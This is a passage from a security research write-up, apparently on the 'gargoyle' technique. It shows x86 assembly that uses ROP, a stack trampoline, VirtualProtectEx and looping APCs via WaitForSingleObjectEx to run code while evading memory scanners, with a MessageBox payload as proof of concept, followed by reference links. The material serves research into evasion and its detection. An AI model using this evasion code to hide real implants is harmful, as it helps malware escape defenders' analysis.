 ```asm
push ecx
mov ecx, [ebx + Configuration.SetWaitableTimer]
call ecx

; Set the initialized bit
mov [ebx + Configuration.initialized], dword 1

; Replace the return address on our trampoline
reset_trampoline:
mov ecx, [ebx + Configuration.VirtualProtectEx]
mov [ebx + Configuration.trampoline], ecx
```

Notice that at `reset_trampoline` we reinstall the address of `VirtualProtectEx` onto the stack trampoline. After the ROP gadget `ret`s, `VirtualProtectEx` executes. When it does, it will clobber its address on the stack trampoline during normal function execution.

At this point, you get to execute arbitrary code. For the proof of concept, we pop a message box:

```asm
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;;; Arbitrary code goes here. Note that the
;;;; default stack is pretty small (65k).
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Pop a MessageBox as example
push 0          ; null
push 0x656c796f ; oyle
push 0x67726167 ; garg
mov ecx, esp
push 0x40       ; Info box
push ecx        ; ptr to 'gargoyle' on stack
push ecx        ; ptr to 'gargoyle' on stack
push 0
mov ecx, [ebx + Configuration.MessageBox]
call ecx
mov esp, ebp
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
```

Once we're done executing, we need to set up our tail calls to `VirtualProtectEx` then `WaitForSingleObjectEx`. We actually set up two calls to `WaitForSingleObjectEx`, since the APC will return from the first and continue executing. This enables us to loop APCs indefinitely:

```asm
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;;; Time to setup tail calls to go down
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
; Setup arguments for WaitForSingleObjectEx x1
push 1
push 0xFFFFFFFF
mov ecx, [ebx + Configuration.sleep_handle]
push ecx
push 0 ; Return address never ret'd

; Setup arguments for WaitForSingleObjectEx x2
push 1
push 0xFFFFFFFF
mov ecx, [ebx + Configuration.sleep_handle]
push ecx
; Tail call to WaitForSingleObjectEx
mov ecx, [ebx + Configuration.WaitForSingleObjectEx]
push ecx

; Setup arguments for VirtualProtectEx
```

[1]: https://github.com/JLospinoso/gargoyle
[2]: https://www.google.com/search?q=live+memory+analysis+&ie=utf-8&oe=utf-8#q=antimalware+service+executable&*
[3]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms681951(v=vs.85).aspx
[4]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa365468(v=vs.85).aspx
[5]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms686289(v=vs.85).aspx
[6]: https://msdn.microsoft.com/en-us/library/windows/desktop/dd405521(v=vs.85).aspx
[7]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa365748(v=vs.85).aspx
[8]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms686307(v=vs.85).aspx
[9]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms686293(v=vs.85).aspx
[10]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms684245(v=vs.85).aspx
[11]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms687028(v=vs.85).aspx
[12]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms687036(v=vs.85).aspx
[13]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx
[14]: https://en.wikipedia.org/wiki/Return-oriented_programming
[15]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366899(v=vs.85).aspx
[16]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms683179(v=vs.85).aspx
[17]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa366786(v=vs.85).aspx
[18]: https://github.com/pakt/ropc
[19]: https://jlospinoso.github.io/assembly/c/developing/software/2015/04/04/common-x86-calling-conventions.html
[20]: https://www.visualstudio.com/downloads/
[21]: http://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
[22]: https://github.com/JLospinoso/gargoyle/issues
[23]: https://msdn.microsoft.com/en-us/library/windows/desktop/ms684954(v=vs.85).aspx
[24]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa363772(v=vs.85).aspx
[25]: https://cseweb.ucsd.edu/~hovav/dist/rop.pdf
[26]: https://github.com/sashs/Ropper
[27]: https://github.com/sashs
